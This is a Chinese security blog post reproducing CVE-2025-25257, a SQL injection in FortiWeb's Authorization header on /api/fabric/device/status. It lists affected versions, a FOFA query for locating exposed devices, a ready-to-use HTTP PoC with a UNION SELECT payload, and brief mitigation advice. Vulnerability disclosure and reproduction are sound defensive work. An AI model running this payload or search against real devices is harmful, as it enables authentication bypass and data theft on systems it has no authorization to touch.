 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483925&idx=1&sn=f679814340a0416b57a5d7a5d71a036f

#  【已复现】飞塔Authorization SQL注入CVE-2025-25257  
原创 zz  星络安全实验室   2025-07-17 06:14  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
漏洞详情：  
  
该漏洞存在于Fortinet FortiWeb设备的
```
/api/fabric/device/status
```

  
接口中，具体表现为：  
1. 注射点  
  
： Authorizatio  
1. 攻击方式  
：攻击者可构造恶意SQL查询注入认证头部  
1. 影响范围  
：可能导致身份验证绕过、敏感数据泄露或系统完全控制  
**影响版本:**  
  
7.0.0 <= FortiWeb <= 7.0.10  
  
7.2.0 <= FortiWeb <= 7.2.10  
  
7.4.0 <= FortiWeb <= 7.4.7  
  
7.6.0 <= FortiWeb <= 7.6.3  
  
**复现过程：**  
  
fofa：  

```
body=&#34;FortiWeb&#34; && body=&#34;app.min.js&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVdvzQ1yNF1iagREs5Q0ibX5WYI2yXnVhWTtQkicia6HDGS3VQp6jNBpfQqBEz7FiaJFas7lavt06rqJV1g/640?wx_fmt=png&from=appmsg "")  
  
  
poc：  

```
GET /api/fabric/device/status HTTP/1.1
Host: xx
Authorization: Bearer 11111' UNION SELECT version(),2,3-- -
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVdvzQ1yNF1iagREs5Q0ibX5WYJV1BYWZQX5JEewHhnncJ2hMRSaUjI8aZCwtTE86BbBDoAUZictngYcg/640?wx_fmt=png&from=appmsg "")  
  
防御建议：  
1. 立即限制对
```
/api/fabric/device/status
```

  
接口的访问  
1. 在FortiWeb上添加针对Authorization头的严格输入验证规则  
